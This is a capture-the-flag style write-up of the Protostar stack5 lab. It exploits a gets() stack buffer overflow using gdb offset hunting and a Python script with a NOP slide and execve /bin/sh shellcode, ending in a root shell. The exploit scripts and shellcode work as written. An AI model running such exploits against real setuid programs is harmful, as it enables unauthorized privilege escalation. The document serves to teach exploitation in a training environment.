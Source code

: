 ```yaml
---
title: Protostar Writeup - stack5
updated: 2018-08-07 15:30
---
```


## Protostar - stack5

This is one of my favorite challenges. We actually get to do something useful here. Our task is to execute shellcode.
Shellcode is nothing but a sequence of bytes, which when executed does some task. Note that this only works if the stack is executable.
This is true for older machines, however newer ones mitigate this vulnerability my making the stack non executable. We don't have to worry much about that.
So here's the code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    char buffer[64];
    gets(buffer);
}
```

Nothing useful overhere, except the fact that we have an exploitable `gets()` function. So our choice of attack is a buffer overflow. We know from the previous post, that we can overflow into the EIP. Thus controlling the codeflow.
Once we can do that, it's just a matter of redirecting control to our 'injected' shell code. First things first. Let's get the offset of the EIP. I'm using pwntools to generate the offset string.

```shell
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave
0x080483da <main+22>:	ret
End of assembler dump.
(gdb) break *0x080483d9
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) r
Starting program: /opt/protostar/bin/stack5
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab

Breakpoint 1, main (argc=1633771893, argv=0x61616176) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()
```

Finding `0x61616174` in the offset string we find the location of the EIP at 76 bytes. So our address to our shellcode goes after 76 bytes of padding.
Before we proceed let's take a look at the stack and figure out where to place our shell code.

```shell
$ python -c "print 'A' * 76 + 'ABCD'" > /tmp/exploit
$ gdb stack5
(gdb) break *0x080483d9
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) r < /tmp/exploit
Starting program: /opt/protostar/bin/stack5 < /tmp/exploit

Breakpoint 1, main (argc=0, argv=0xbffff854) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
(gdb) x/24wx $esp
0xbffff7b0:	0x00000000	0xbffff854	0xbffff85c	0xb7fe1848
0xbffff7c0:	0xbffff810	0xffffffff	0xb7ffeff4	0x08048232
0xbffff7d0:	0x00000001	0xbffff810	0xb7ff0626	0xb7fffab0
0xbffff7e0:	0xb7fe1b28	0xb7fd7ff4	0x00000000	0x00000000
0xbffff7f0:	0xbffff828	0x87ea710a	0xadbd671a	0x00000000
0xbffff800:	0x00000000	0x00000000	0x00000001	0x08048310
```
We can probably choose anyone of these addresses, let's try the first one `0x0xbffff7b0`.
Below is the exploit script code.

```python
import struct

offset = 'A' * 76
address = struct.pack("I", 0xbffff7b0)
shellcode = 'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'

def go():
    print offset + address + shellcode

go()
```

Now let's run this and see what happens.

```shell
$ python /tmp/exploit.py | ./stack5
```

Oh oh!. Something's not right, we're getting an illegal instruction error. Let's take a look at it in the debugger.
We find something even more funny here, it works perfectly fine in the debugger.

```shell
$ python /tmp/exploit.py > /tmp/exploit
$ gdb stack5
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave
0x080483da <main+22>:	ret
End of assembler dump.
(gdb) break *0x080483d9
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) r < /tmp/exploit
Starting program: /opt/protostar/bin/stack5 < /tmp/exploit

Breakpoint 1, main (argc=795371626, argv=0x68732f2f) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) c
Continuing.
Executing new program: /bin/dash

Program exited normally.
```

This actually bugged me for quite some time. I found a solution to this in the reddit thread [here](https://www.reddit.com/r/LiveOverflow/comments/8pr5ox/problem_on_protostar_stack5/).
What happens is that when you execute a program, the OS even pushes the environment variables onto the stack.
Now when we run the executable outside gdb, the environment is different, and hence the shellcode gets misaligned.
To counter this we can use something called as a NOP slide. NOP is short for no instruction, which will basically do nothing.
The idea is that you set your EIP to an arbitrary address which you hope will land on the NOP slide.
We place our shellcode after the NOP slide, so when the NOPs are done executing, our shellcode is executed.
There is a little trick to choosing this arbitrary address and length of NOP slides, they should be a multiple of 4, else your shellcode will be misaligned.
This is what is happening to us outside gdb, our shellcode is getting misaligned, so let's fix it.
The below exploit is with a little trial and error, but you should get the idea.

```python
import struct

offset = 'A' * 76
address = struct.pack("I", 0xbffff7b0 + 16)
nopslide = '\x90' * 32
shellcode = 'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'

def go():
	print offset + address + nopslide + shellcode

go()
```

Let's run it:

```shell
$ python /tmp/exploit.py | ./stack5
$
```

Ok, so no error this time. This begs the question, how do we use the shell, since it exits as soon as it is created.
The reason is that as the input stream closes the shell also exits. So we need a way to hold the input stream.
After digging around a little I came across this stackoverflow [post](https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection).

So using one of those techniques...

```shell
$ (python /tmp/exploit.py; cat) | ./stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
```

Owned! We finally managed to get a shell with root privilages. I hope this gives you a taste of privilage escalation. This was by far the most fun exercise I've done. Hope you enjoyed this too :)

### Sites

[Protostar](https://exploit-exercises.com/protostar/)
[Phrack](http://phrack.org/issues/49/14.html)

